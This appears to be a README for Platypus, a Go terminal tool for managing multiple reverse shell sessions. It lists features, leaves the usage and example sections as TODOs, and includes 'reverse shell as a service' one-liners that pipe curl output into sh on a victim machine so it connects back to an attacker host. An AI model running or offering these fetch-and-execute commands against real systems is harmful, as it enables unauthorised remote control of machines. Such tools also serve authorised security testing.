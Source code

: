 # Platypus

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple listening port
- [x] RESTful API
- [x] Upgrade common reverse shell session into full interactive session
- [x] Reverse shell as a service

#### Usage
```
# TODO
```

#### Example
```
# TODO
```

#### Reverse shell as a Service
```
# victim will be redirected to attacker-host attacker-port
sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# if the attacker info not specified, it will use host, port as attacker-host attacker-port
sh -c "$(curl http://host:port/)"
```

#### TODO
- [ ] More interface in RESTful API
